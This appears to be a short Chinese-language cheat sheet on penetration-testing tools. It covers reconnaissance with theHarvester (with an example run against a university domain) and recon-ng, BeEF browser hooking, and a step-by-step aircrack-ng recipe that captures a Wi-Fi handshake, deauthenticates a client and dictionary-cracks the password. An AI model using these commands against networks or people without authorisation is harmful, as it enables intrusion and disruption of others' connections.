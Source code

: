 ## 信息收集篇
###  1:theharvester
* 用处：收集电子邮件，子域名，主机，员工姓名，开放的端口和横幅不同的公共来源。
* -d:从某个域搜索：ie:theharvester -d hdu.edu.cn -l 500 -b google
* -b:数据源：如上为google
* -s:结果显示开始数:默认为0
* -h:帮助，具体看这个
### 2:recon-ng
* 用处：有信息收集，侦查，攻击，报告模块，模块可以自行扩展。
* 详细教材看FreeBuf写的文章
##  密码篇

##  攻击篇
### 1:BeEF
* 通过script的src链接到远程js文件，通过js文件获取相关主机信息。
### 2:无线密码破解
1. airmon-ng:查看网卡信息
2. airmon-ng start wlan0mon:监听网卡
3. airodump-ng wlan0mon:扫描wifi信号
4. airodump-ng -w filename -c CH --bssid wifi_mac_addr wlan0mon --ignore-negative-one: 开始抓包（这个进程不得停止）
5. aireplay-ng --deaut 10 wifi_mac_addr -c target_mac_addr wlan0mon --ignore-negative-one: 另开窗口并运行
6. aircrack-ng -w word_dic capfile.cap: 字典破解密码
